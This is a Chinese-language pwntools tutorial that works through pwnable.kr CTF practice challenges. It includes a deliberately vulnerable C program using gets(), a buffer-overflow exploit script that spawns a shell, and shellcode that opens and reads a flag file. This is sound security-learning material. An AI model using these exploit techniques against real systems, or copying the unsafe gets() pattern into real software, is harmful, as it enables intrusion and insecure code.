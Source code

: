 > 学习网址：
>
> - <https://bbs.pediy.com/thread-247217.htm>

# `pwntools` 新手教程

## `Hello World`

C 程序源代码（`./1.c`）：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

`exp` 脚本（`./1.py`）：

```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline("AAAA" * 13 + p32(0xcafebabe))
c.interactive()
```

## `ShellCode`

获取源码和可执行文件的方式，需要先通过 `ssh` 连接的目标主机：

```bash
ssh -p2222 asm@pwnable.kr
# 输入密码 guest
```

或者直接通过 `scp` 下载文件：

```bash
scp -P 2222 asm@pwnable.kr:~/asm ./
# 输入密码 guest

scp -P 2222 asm@pwnable.kr:~/asm.c ./
# 输入密码 guest
```

`exp.py` 的内容：

```python
from pwn import *
 
p = process("./asm")
context.log_level = 'DEBUG'
gdb.attach(p)
 
context(arch='amd64', os='linux')
 
shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax','rsp',0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)
 
p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

 除了 I/O, `process` 返回的对象可以通过 `gdb.attach(p)` 将进程 attach 到 gdb 上。Attach 之后，gdb 便可以调试该程序来（设置 breakpoints，查看 stack，以及简单的反汇编）。

